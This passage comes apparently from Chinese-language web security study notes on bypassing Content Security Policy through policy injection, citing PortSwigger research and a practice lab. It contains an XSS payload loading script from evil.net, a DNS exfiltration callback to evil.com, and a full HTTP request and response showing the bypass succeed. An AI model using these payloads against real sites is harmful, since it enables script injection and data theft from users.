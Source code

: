 `evil.com`成功接收到`vul.com`的数据:
```
The Collaborator server received a DNS lookup of type A for the domain name :
g1.evil.com
```

#### 绕过CSP 方法2 - web应用设计问题导致策略注入

绕过Paypal的CSP(chrome) [Bypassing CSP with policy injection](https://portswigger.net/research/bypassing-csp-with-policy-injection)
* 绕过原理 - **前提**是该web应用的设计存在缺陷 即response的`Content-Security-Policy`这个header用户可控
* 绕过过程
  * 攻击者构造输入 - 使原本的CSP策略最末尾的`report-uri /report-csp`之后跟上了"攻击者注入的策略" `;script-src-elem *` (指定`<script>`元素的有效源为`*`) 此时CSP策略变为`Content-Security-Policy: script-src 'none'; report-uri /report-csp;script-src-elem *` 
  * 浏览器执行策略 - 浏览器依据规范[CSP: script-src-elem](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/script-src-elem)中的优先级`script-src-elem` > `script-src` > `default-src` 即如果前者存在则使用前者的配置(后者配置无效) 所以这个案例中浏览器会执行`script-src-elem`的配置 不会使用策略中原本的`script-src`的配置 所以浏览器会允许`<script>`元素的有效源为`*`
  * XSSpayload `<script src="http://evil.net/xss.js"></script>` 执行成功


使用策略注入绕过CSP [在线靶场](http://portswigger-labs.net/edge_csp_injection_xndhfye721/?x=%3Bscript-src-elem+*&y=%3Cscript+src=%22http://subdomain1.portswigger-labs.net/xss/xss.js%22%3E%3C/script%3E) chrome下XSS成功触发


Request
```
GET /edge_csp_injection_xndhfye721/?x=%3Bscript-src-elem+*&y=%3Cscript+src=%22http://subdomain1.portswigger-labs.net/xss/xss.js%22%3E%3C/script%3E HTTP/1.1
Host: portswigger-labs.net
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

Response
```
HTTP/1.1 200 OK
Date: Fri, 11 Oct 2019 07:01:13 GMT
Server: Apache/2.4.37 (Amazon) OpenSSL/1.0.2k-fips
X-XSS-Protection: 0
Content-Security-Policy: script-src 'none'; report-uri /test;script-src-elem *
Content-Length: 75
Connection: close
Content-Type: text/html; charset=UTF-8


<script src="http://subdomain1.portswigger-labs.net/xss/xss.js"></script>
```
